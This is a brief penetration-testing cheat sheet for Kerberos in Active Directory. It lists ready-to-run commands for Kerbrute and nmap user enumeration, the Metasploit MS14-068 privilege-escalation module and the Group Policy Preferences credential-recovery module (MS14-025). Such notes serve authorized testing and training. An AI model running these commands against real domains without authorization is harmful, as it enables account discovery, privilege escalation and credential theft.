 # kerberos

% kerberos

## Kerbrute usersenum
```
./kerbrute_linux_amd64 userenum -d <domain> --dc <ip> <users_file>
```

## kerberos enum users
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

## kerberos enum users (with user list)
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```
